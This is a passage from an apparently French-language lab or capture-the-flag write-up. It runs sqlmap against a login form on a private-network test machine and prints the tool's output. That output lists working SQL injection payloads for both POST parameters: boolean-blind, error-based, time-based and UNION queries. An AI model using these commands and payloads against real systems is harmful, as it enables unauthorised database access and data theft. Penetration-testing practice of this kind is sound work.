 On enchaine avec `SQLmap` :

```bash
python sqlmap.py -u http://192.168.56.179/personel.php --data "kullanici_adi=yo@yo.com&parola=123456" --dbms mysql --risk 3 --level 5
```

Ce dernier nous indique que les deux paramètres passés via `POST` sont vulnérables :

```
sqlmap identified the following injection point(s) with a total of 3372 HTTP(s) requests:
---
Parameter: kullanici_adi (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: kullanici_adi=-1454' OR 3773=3773-- vpaY&parola=123456

    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: kullanici_adi=yo@yo.com' OR ROW(9907,1269)>(SELECT COUNT(*),CONCAT(0x7170716a71,(SELECT (ELT(9907=9907,1))),0x71706b6b71,FLOOR(RAND(0)*2))x FROM (SELECT 5799 UNION SELECT 8295 UNION SELECT 3575 UNION SELECT 8926)a GROUP BY x)-- NBQc&parola=123456

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: kullanici_adi=yo@yo.com' AND (SELECT 9399 FROM (SELECT(SLEEP(5)))xbZi)-- Gkbz&parola=123456

    Type: UNION query
    Title: Generic UNION query (NULL) - 9 columns
    Payload: kullanici_adi=yo@yo.com' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7170716a71,0x6e6f436e546668416d59774253754873487257497545764b6a5661475747484449514550744c745a,0x71706b6b71),NULL-- -&parola=123456

Parameter: parola (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: kullanici_adi=yo@yo.com&parola=-5310' OR 8586=8586-- vQuZ

    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: kullanici_adi=yo@yo.com&parola=123456' OR ROW(5380,2514)>(SELECT COUNT(*),CONCAT(0x7170716a71,(SELECT (ELT(5380=5380,1))),0x71706b6b71,FLOOR(RAND(0)*2))x FROM (SELECT 8932 UNION SELECT 8533 UNION SELECT 9137 UNION SELECT 6658)a GROUP BY x)-- wnTC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: kullanici_adi=yo@yo.com&parola=123456' AND (SELECT 1490 FROM (SELECT(SLEEP(5)))DBeo)-- lISV

    Type: UNION query
    Title: Generic UNION query (NULL) - 9 columns
    Payload: kullanici_adi=yo@yo.com&parola=123456' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7170716a71,0x63524670634d516476747a644761724f677a555572444d764b775359576276594a4f484279564168,0x71706b6b71),NULL-- -
---
```
